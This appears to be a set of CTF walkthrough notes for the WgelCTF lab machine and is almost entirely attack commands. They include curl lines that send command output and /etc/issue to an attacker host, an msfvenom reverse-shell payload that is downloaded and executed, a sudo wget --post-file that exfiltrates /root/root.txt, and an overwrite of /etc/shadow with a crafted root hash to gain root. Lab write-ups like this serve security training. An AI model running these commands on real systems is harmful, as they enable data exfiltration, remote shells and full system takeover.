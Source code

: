 In target:
```bash
curl http://<our IP>:<port>
curl http://<our IP>:<port>/'whoami'
curl http://<our IP>:<port>/'id | base64'
curl http://<our IP>:<port>/file -T /etc/issue
```

We can try to upload a msfvenom payload to the machine.
msfvenom -p linux/x64/shell_reverse_tcp lhost=<our ip> lport=<port> -f elf -o <name>

```bash
curl http://<our IP>:<por>/<file> -o /tmp/r
chmod +x /tmp/r
/tmp/r # run after netcat is listening
```



# PrivEsc WgelCTF

user was able to use wget as SUDO...

1:
```bash
sudo wget --post-file /root/root.txt http://10.10.14.5:443/
```

> I sent the flag through **http.server**

2:
## Create shadow file
```bash
openssl passwd -1 -salt 0xdf password

sudo wget -O /etc/shadow http://10.10.14.5/shadow
su -
```

I did a file a shadow file and overwrote the actual shadow of the machine:
```bash
root:$1$0xdf$fKKvgEPPSu1HMdNI3w5i50:18195:0:99999:7:::
```

> so when the command **su -** is written, I get root access.

```bash
root@CorpOne:~# id
uid=0(root) gid=0(root) groups=0(root)
```

# Extra notes

|Service|User|Password|Notes|
|---|---|---|---|
|Wordpress|administrator|||
